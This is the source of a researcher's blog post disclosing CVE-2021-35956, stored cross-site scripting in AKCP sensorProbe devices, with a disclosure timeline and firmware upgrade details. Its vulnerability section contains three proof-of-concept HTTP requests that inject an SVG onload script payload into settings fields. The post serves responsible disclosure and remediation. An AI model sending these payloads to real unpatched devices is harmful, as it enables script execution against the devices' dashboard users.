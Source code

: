 ```yaml
---
title: CVE-2021-35956 AKCP sensorProbe - 'Multiple' Cross Site Scripting (XSS)
description: Getting my first CVE vulnerability assigned 🎉
featured: true
feature-header: "Featured Research \U0001F447"
tag: Vulnerability Research
image: "/assets/img/posts/2021-06-28-CVE-2021-35956/preview.png"
layout: post
date: '2021-06-28 00:01:21 -0400'
last-updated: '2021-06-28 00:01:21 -0400'
style: blog1
author: Tyler Butler
lead: Getting my first CVE vulnerability assigned 🎉
card: card-2
postid: 1
redirect_from:
- "/CVE-2021-35956"
navheader: posts
id: post6
---
```


This week, I was incredibly fortunate to finally get my first CVE vulnerability assigned by Mitre 🎉 ! <a href="https://nvd.nist.gov/vuln/detail/CVE-2021-35956" class="highlighted">CVE-2021-35956</a> details multiple stored cross-site scripting (XSS) vulnerabilities I discovered in the AKCP sensorProbe embedded webserver. In this post, I'll describe the technical details of the vulnerability, the vendor's response, and remediation options. Overall AKCP was an exceptional partner in the responsible disclosure process, remediating the issue quickly and providing me with a test unit to verify the updated firmware. 

####  **Index**  
+  [Disclosure Timeline]({{page.url}}#-disclosure-timeline)
+  [About the Vendor]({{page.url}}#-about-the-vendor)
+  [Vulnerability Details]({{page.url}}#-cve-2021-35956-vulnerability-details)
+  [Firmware Upgrade]({{page.url}}#-firmware-upgrade)

#### **⏱ Disclosure Timeline**

  <div class="timeline mt-1 mb-1">
      <div class="tl-item active">
          <div class="tl-dot b-warning"></div>
          <div class="tl-content">
              <div class="">I attempt to find a security contact at AKCP, could not do so, and contacted the sales team at sales@akcp.com</div>
              <div class="tl-date text-muted mt-1">29 May 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-warning"></div>
          <div class="tl-content">
              <div class="">I recieve response from management, and release my responsible disclosure report</div>
              <div class="tl-date text-muted mt-1">29 May 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">AKCP provides me a copy of beta test firmware for the fix</div>
              <div class="tl-date text-muted mt-1">15 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">AKCP provides me an ip address for a test unit to verify the fix, I confirm the vulnerability has been fixed</div>
              <div class="tl-date text-muted mt-1">16 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-primary"></div>
          <div class="tl-content">
              <div class="">AKCP releases updated <a href="http://www.akcp.in.th/downloads/Firmwares/SP480-20210624.zip" class="highlighted">firmware</a> on their website and updates their <a href="https://www.akcp.com/support-center/customer-login/sensor-probe-firmware-changelog/" class="highlighted">changelog</a> mentioning the XSS vulnerability</div>
              <div class="tl-date text-muted mt-1">25 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-danger"></div>
          <div class="tl-content">
              <div class="">I submit a request for CVE through Mitre's <a href="https://cveform.mitre.org/" class="highlighted">submission form</a></div>
              <div class="tl-date text-muted mt-1">28 June 2021</div>
          </div>
      </div>
      <div class="tl-item">
          <div class="tl-dot b-danger"></div>
          <div class="tl-content">
              <div class="">Mitre reserves CVE-2021-35956 for the vulnerability </div>
              <div class="tl-date text-muted mt-1">29 June 2021</div>
          </div>
      </div>
    </div>

#### **💡 About the Vendor**  

<a href="https://www.akcp.com" class="highlighted">AKCP</a> is a sensor manufacturer developing network-based temperature, enviorment, and power monitoring devices. Their clients include big names like Nasa, Coca-cola, Toyota, Adobe, and much <a href="https://www.akcp.com/about-akcp-2/" class="highlighted">more</a>. Their most popular devices include the sensorProbe, securityProbe, and AKCPro Server. This research identifies multiple stored cross-site scripting vulnerabilities in all sensorProbe devices. According to <a href="https://www.akcp.com/akcp-products/sensorprobe-series/" class="highlighted">AKCP</a>, the sensorProbe devices are,

*"the worlds **most installed** Remote Environmental Sensor Monitoring Device ... deployed in a wide variety of industries including Data Center Environmental Monitoring, Warehouse Temperature Monitoring, Cold Storage Temperature Monitoring, Fuel / Generator Monitoring, and other Remote Site Monitoring applications."*



####  **🆘 CVE-2021-35956 Vulnerability Details**  

All sensorProbe devices prior to firmware version SP480-20210624 are vulnerable to authenticated stored cross-site scripting via the Sensor Description, Email, and System setting fields. Authenticated users can introduce arbitrary javascript through the vulnerable fields, and have payloads execute in the context of users who visit the sensorProbe embedded webserver dashboard. While stored XSS can be dangerous, this vulnerability requires the attacker to already be authenticated in order to store payloads. 

*The following section identifies proof of concepts for each vulnerable field*  

#### Stored Cross-Site Scripting via System Settings  

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via the system name and system location parameters in system settings.

**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**  

```yaml
POST /system?time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 114
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/system?time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

_SA01=System+Namer&_SA02=RDC&_SA03=Name<svg/onload=alert`xss`>&_SA04=1&_SA06=0&_SA36=0&_SA37=0&sbt1=Save
```  

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" 
        src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss_0.png">
    </div>
</div>  


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss-1.png">
    </div>
</div>  



#### 2) Stored Cross-Site Scripting via Email Settings  

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via the mail from, mail to, and mail cc  parameters in email settings.  

**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**

```yaml
POST /mail?time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 162
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/mail?time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


_PS03=test@test.com&_PS04=test@test.com&_PS05_0=test@test.com&_PS05_1=test@test.comr&_PS05_3=<svg/onload=alert`xxss`>&_PS05_4=&sbt2=Save
```   

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss_2x.png">
    </div>
</div>  

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/xss_3.png">
    </div>
</div>  




#### 3) Stored Cross-Site Scripting via Sensor Description

The sensorProbe embedded web server is vulnerable to authenticated stored cross-site scripting via sensor settings description parameter for each of the sensor options. 


**Payload**: ``<svg/onload=alert`xss`>``

**Proof of Concept**  


```yaml
POST /senswatr?index=0&time=32e004c941f912 HTTP/1.1
Host: [target]
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://[target]
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://[target]/senswatr?index=0&time=32e004c941f912
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CPCookie=sensors=400
Connection: close

_WT00-IX="><svg/onload=alert`xss`>&_WT03-IX=2&sbt1=Save
```  

####  **🚀 Firmware Upgrade**  

As of Friday June 25th, SensorProbe users can upgrade their devices to SP480-20210624 according to AKCP standards outlined in the <a href="https://www.akcp.com/support-center/customer-login/sensorprobe-series-firmware-download/" class="highlighted">firmware download</a> page.  

```text
Firmware Update – Download – release date 28 June 2021
Latest Firmware – SP480-20210624
Note: To download files, right-click on the file and select “save as”
md5sum: 83f107f274ed6fda2cd5aa0f21935a98

IMPORTANT NOTE: The sensorProbe2 & SP8 units with the Atmega128 micro-controller (SPxxxi) do not support this firmware version. You can check your units micro-controller version in the web interface System page >> System Description. If you see an “I” after the firmware version (SPxxxi) then your unit is using the older Atmega128 micro-controller. Please see below for the latest firmware for your SP8 base unit.
```  


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-06-28-CVE-2021-35956/changelog.png">
    </div>
</div>  



